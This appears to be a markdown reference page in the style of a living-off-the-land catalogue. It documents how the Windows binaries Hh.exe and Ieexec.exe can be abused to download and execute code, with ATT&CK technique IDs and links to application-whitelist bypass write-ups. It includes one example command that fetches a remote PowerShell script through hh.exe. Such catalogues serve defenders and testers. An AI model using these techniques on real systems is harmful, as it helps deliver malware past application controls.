  
## Hh.exe

Binary used for processing chm files in Windows

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li><li>T1216</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li><li>Execute</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\hh.exe`</li><li>`C:\Windows\SysWOW64\hh.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Oddvar Moe (@oddvarmoe)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/</li></ul></div>|

 
 

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`HH.exe http://some.url/script.ps1`|Open the target PowerShell script with HTML Help.|


 

#### Search Queries


> Analytic Goes Here!


 
## Ieexec.exe

The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li><li>T1218</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li><li>Execute</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe`</li><li>`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Casey Smith (@subtee)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/</li></ul></div>|

